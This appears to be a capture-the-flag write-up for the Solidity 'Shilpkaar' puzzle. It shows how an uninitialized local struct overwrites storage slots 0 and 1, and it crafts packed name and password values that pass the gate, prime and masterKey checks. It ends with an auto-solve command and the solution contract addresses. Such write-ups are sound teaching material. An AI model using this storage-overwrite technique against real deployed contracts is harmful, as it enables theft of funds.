 # Shilpkaar

With difference, one of the most annoying puzzles of the set. From Wikipidia, [Shilpkar](https://en.wikipedia.org/wiki/Shilpkar) are _an artisan community mainly associated with Intaglio techniques and painting_. This is indeed a hint on what must be done in order to solve the puzzle. In particular, to solve this puzzle, we will need to carefully craft a set of data that allows us to pass the multiple complex checks inside the challenge contract.

But first of all we need to find the key to the first lock, which is hidden in plain sight.

## Unlock

Looking at the functions we can see that the `roulette()` function is first protected by the requirement of the called to be in the `shilpkaar` mapping. Looking at the contract it seems the only possible way of achieving this is by calling the `unlock()` function first and passing all the checks.

However the unlock function first check seems to lock us out of calling it at all! The first check needs the state variables `gate1Unlocked` and `gate2Unlocked` to be set to `true`. These 2 variables are unitialized (meaning they are both false) and they are not set anywhere.

Typically when presented with a puzzle like this, there is either an array underflow to be exploited, or a more subtle one in the shape of complex data type declared locally without specifying its data location. What does this mean? Back in Solidity 0.4 you could declare a local complex variable (like a struct) without specifying its data location. If you didn't specify it then it would, by default, be pointing to a storage location. In particular to the slot 0 of the contract storage. This is OK as far as you don't write to it and just use it to later on point it to the right location. However, if you would write to it before pointing it to a valid location...it would directly overwrite the contents of the contract storage starting from the slot 0.

This is exactly what is happening in the `unlock` function:

```
  function unlock(bytes32 _name, bytes32 _password) external {
        regInfo regRecord;
        regRecord.name = _name;
        regRecord.password = _password;
```

`regRecord` is declared but not pointed to a valid location, and then it's members are set to `_name` and `_password`. Because `regRecord.name` and `regRecord.password` are `bytes32` variables, they are actually pointing to the slot 0 and slot 1 of the contract storage (each slot is 32 bytes long).

This gives us control over the first two slots of the contract storage.

The second part of this section of the puzzle is to realize that there is more than 1 variable mapped to the slot 0, and that the same follows for the slot 1. In particular:

```
    // Slot 0
    address private garbageAddress;  //         160 bits
    bool private gate1Unlocked;      //         8 bits
    uint16 private gateKey1;         //         16 bits
    uint72 public rouletteStartTime; //         72 bits
                                     // TOTAL   256 bits = 32 bytes = 1 slot

    // Slot 1
    uint64 private gateKey2;         //         64 bits
    uint64 private gateKey3;         //         64 bits
    bool private gate2Unlocked;      //         8 bits
    uint64 private gateKey4;         //         64 bits
    uint56 private gateKey5;         //         56 bits
                                     // TOTAL   256 bits = 32 bytes = 1 slot
```

With this information we can craft a set of data that will allow us to pass the multiple checks inside the challenge contract.

## First two checks

The values for `gate1Unlocked` and `gate2Unlocked` are set to `true` to pass the first check. Then the second check requires us to fill in the `garbageAddress` variable with a value that meets the folowing expectation:

```
        require(
            uint256(garbageAddress) > 2**153 + garbageNonce &&
                uint256(garbageAddress) <= 2**160 - ((garbageDivisor - 1) - garbageNonce),
            "Problem With garbageAddress"
        );
```

Looking at the condition we can set `garbageAddress` to be:

```
        garbageAddress = address(uint160(2**153 + garbageNonce + 1));
```

and pass both tests. Because `garbageNonce` is public we can read it and use it in the formula.

## The prime conundrum and the master key

This part was the most difficult to craft along the `masterKey` value. The next check looks like this:

```
        require(
            gateKey3 < (uint256(uint64(-1)) * 49) / 100 &&
                gateKey4 < (uint256(uint64(-1)) * 51) / 100 &&
                probablyPrime(gateKey3) &&
                probablyPrime(gateKey4),
            "Problem with gateKeys"
        );
```

It basically says that `gateKey3` must be less than 49% of the maximum value of `uint64` and `gateKey4` must be less than 51% of the maximum value of `uint64`. Oh, and both must be possibly primes!

Because I will need this keys to add up to a certain value for `masterKey` to be valid, I crafted a value to be added and substracted to `gateKey3` and `gateKey4`. This way by adding up `gateKey3` and `gateKey4` the extra value addition and substraction cancel out, but allows us to bring the values of `gateKey3` and `gateKey4` to the desired range:

```
uint64 gateKeysCompensation = uint64(2**63 - ((uint256(type(uint64).max) * 49) / 100));
```

Now we can define the `gateKey3` and `gateKey4` values as:

```
        uint64 gateKey3 = 2**63 - gateKeysCompensation;
        uint64 gateKey4 = 2**63 + gateKeysCompensation;
```

This makes both values to be in range, but they are still not prime. In order to find the prime number that is closest to the desired value, I used this [website](https://www.numberempire.com/primenumbers.php) that calculates the closes prime number (next or previous) to the one given. Passing the values for `gateKey3` and `gatekey4` we can gate their respectives previous prime numbers and adjust the formula to hit the target:

```
        uint64 gateKey3 = 2**63 - 44 - gateKeysCompensation;
        uint64 gateKey4 = 2**63 - 92 + gateKeysCompensation;
```

The `masterKey` is calculated like this:

```
        uint256 masterKey = uint256(gateKey1) +
            uint256(gateKey2) +
            uint256(gateKey3) +
            uint256(gateKey4) +
            uint256(gateKey5);
```

And we need `masterKey` to meet the following check:

```
        require(
            masterKey > (2**65 + 2**56) + masterNonce &&
                masterKey < (2**65 + 2**56 + 2**16) - ((masterDivisor - 1) - masterNonce),
            "Problem with masterkey"
        );
```

If we add up all the values composing the `masterKey` we can see that we are short by `masterNonce` and an extra 139. This is great because we have one free variable available which is `gateKey1`. We can use this variable to add the missing value to `masterKey`. It is a `uint16` but it is enough to hold the needed offset:

```
        uint16 gateKey1 = 139 + uint16(masterNonce);
```

## Roulette Start Time

The last value we need to set is the `rouletteStartTime`. This will the time used in the `roulette` function check:

```
     require(block.timestamp >= timeToRoll[msg.sender], "Problem with timeToRoll");
```

The easiest is to set it to 0, so we can call `roulette` at any time.

## Final Hack

With all these values now we can craft the values for `name` and `password`:

```
        bytes32 name = bytes32(abi.encodePacked(rouletteStartTime, gateKey1, gate1Unlocked, garbageAddress));
        bytes32 password = bytes32(abi.encodePacked(gateKey5, gateKey4, gate2Unlocked, gateKey3, gateKey2));
```

We can call `unlock` with this values and then `roulette` to win the challenge~

## Solution

Solved by deployer: 0xc892cfd3e75Cf428BDD25576e9a42D515697B2C7
Solution contract address: 0x16c0dBDD7eEe418C7342a2A81737e6Bb9b3BE4F8

You will need to check the challenge contract internal transactions to see the calls from the solution contract

## Auto-solve

To solve this challenge you can use the following command:

```
$ yarn solve-shilpkaar:rinkeby --shilpkaar-address 0x8b6Df584c5b82F9647a63a66cfD45006ccB777FF
```

The deployed attack contract ShilpkaarSolution address will be the one registered as being pwned the Shilpkaar contract.
